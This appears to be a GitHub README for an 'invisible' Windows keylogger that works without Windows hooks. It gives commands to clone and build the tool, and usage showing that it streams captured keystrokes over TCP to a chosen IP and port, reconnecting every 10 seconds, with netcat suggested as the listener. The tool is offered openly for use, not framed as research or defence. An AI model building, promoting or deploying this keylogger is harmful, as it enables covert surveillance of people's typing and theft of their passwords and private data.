 # Invisible keyLogger for Windows (without windows hooks)

## Build
```bash
git clone https://github.com/x0152/KeyLogger
cd KeyLogger
mkdir build
cd build
cmake .. -G "MinGW Makefiles"
make
```

## Usage
```bash
KeyLogger <ip> <port>
```
Program will establish tcp connection to ip on specified port. You can use netcat for testing. (example: nc -l 8030)
If the connection is lost then programm will try reconnect each 10 seconds.

## Exapmple output
<img src = "output.png">
